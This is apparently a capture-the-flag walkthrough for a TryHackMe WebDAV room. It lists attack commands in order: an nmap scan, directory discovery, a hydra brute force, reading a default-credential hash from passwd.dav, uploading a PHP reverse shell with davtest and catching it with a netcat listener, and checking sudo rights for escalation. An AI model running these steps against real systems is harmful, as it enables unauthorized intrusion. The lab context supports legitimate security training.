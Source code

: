 ```http
https://tryhackme.com/room/bsidesgtdav
```

```ip
10.10.209.9
```
___
# Recon
## Nmap
```bash
nmap -p- -sC -sV -Pn 10.10.209.9 -T5 -vv  
```

```resoults
80/tcp    open     http         syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

___
## Dirsearch
```bash
dirsearch -u http://10.10.209.9/    
```

```resoults
[14:57:02] 401 -  458B  - /webdav/                                          
[14:57:02] 401 -  458B  - /webdav/index.html                                
[14:57:02] 401 -  458B  - /webdav/servlet/webdav/
```


```bash
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/rockyou.txt 10.10.209.9 http-get /webdav/index.html -V -t 64
```

```resoults
n/a
```
___
## Search google

```http
https://hacktricks.boitatech.com.br/pentesting/pentesting-web/put-method-webdav
```

```http
https://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html
```
default creds))
```http
http://10.10.209.9/webdav/passwd.dav
```

```
wampp:$apr1$Wm2VTkFL$PVNRQv7k******4qKA91
```
## Hashcat
```bash
hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt 
```

```resoults
n/a
```
___
# RCE
```http
https://www.revshells.com/
```
```
Linux-> PHP PentestMonkey
```

```bash
davtest -url http://10.10.209.9/webdav/ -auth wampp:xampp -uploadfile shell.php -uploadloc shell.php
```

```bash
nc -lnvp 1337
```

```http
http://10.10.209.9/webdav/shell.php
```
___
# LPE

```bash
sudo -l
```

```resoults
(ALL) NOPASSWD: /bin/cat
```
